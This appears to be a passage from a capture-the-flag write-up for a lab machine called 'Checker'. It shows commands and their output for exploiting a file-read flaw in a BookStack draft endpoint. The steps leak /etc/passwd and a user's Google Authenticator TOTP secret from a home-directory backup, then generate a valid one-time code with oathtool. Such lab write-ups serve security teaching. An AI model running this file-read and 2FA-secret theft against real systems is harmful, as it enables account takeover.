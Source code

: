 We slowly but surely get characters for the file we want to read:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
```

We have an LFI! maybe we can use this to somehow extract the OTP codes!

Looking around the dashboard we find the following excerpt regarding backups:

>   
    #!/bin/bash
    SOURCE="/home"
    DESTINATION="/backup/home_backup"
    mkdir -p $DESTINATION
    cp -r --remove-destination -p $SOURCE $DESTINATION/
    

Which is backing up `/home` to `/backup/home_backup/home`.

Furthermore a simple google search of `ssh topt` we can find the following file:

`.google_authenticator`

Using this information we can discern the following location of our authenticator codes: `/backup/home_backup/home/reader/.google_authenticator`

We're able to exfiltrate the TOTP secret key:

```
python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/15/save-draft --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"CYl9RDoY8eceMlQUGYBMka1pqAmPJ0665QQN2qWm","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjJoVE9Pd3B0aWVtT3IySUFWZ29BV0E9PSIsInZhbHVlIjoicHFXMkpQa3VUSXZHcUFndHZIRjFReHlua3Q4UVR4K1M0WlN1cmV1byszeDU2bWNGandrd2dJRlVkZjJJVnV0WS9Nb0Q5dGlSbHJwZ2l2UWUrVHVSS1NML0VnWDZxTTlib3R2cTFKZDVzMk45OEpoK0VQelF1bTlpOU40bFJTb1YiLCJtYWMiOiJhYzAxYjg3OWQzODdjNGU4NjA2MTYzMzVkMDAxYzcwZGRmZjI3MWJiYWZhZjQyMmUzOTk3NjM5NTg3OTk2YTY2IiwidGFnIjoiIn0%3D"}'

[*] The following URL is targeted : http://checker.htb/ajax/page/15/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN":"CYl9RDoY8eceMlQUGYBMka1pqAmPJ0665QQN2qWm","Content-Type":"application/x-www-form-urlencoded","Cookie":"bookstack_session=eyJpdiI6IjJoVE9Pd3B0aWVtT3IySUFWZ29BV0E9PSIsInZhbHVlIjoicHFXMkpQa3VUSXZHcUFndHZIRjFReHlua3Q4UVR4K1M0WlN1cmV1byszeDU2bWNGandrd2dJRlVkZjJJVnV0WS9Nb0Q5dGlSbHJwZ2l2UWUrVHVSS1NML0VnWDZxTTlib3R2cTFKZDVzMk45OEpoK0VQelF1bTlpOU40bFJTb1YiLCJtYWMiOiJhYzAxYjg3OWQzODdjNGU4NjA2MTYzMzVkMDAxYzcwZGRmZjI3MWJiYWZhZjQyMmUzOTk3NjM5NTg3OTk2YTY2IiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

Using `oathtool` let's grab the `otp`:

```
oathtool --totp -b 'DVDBRAODLCWF7I2ONA4K5LQLUE'

319702
```
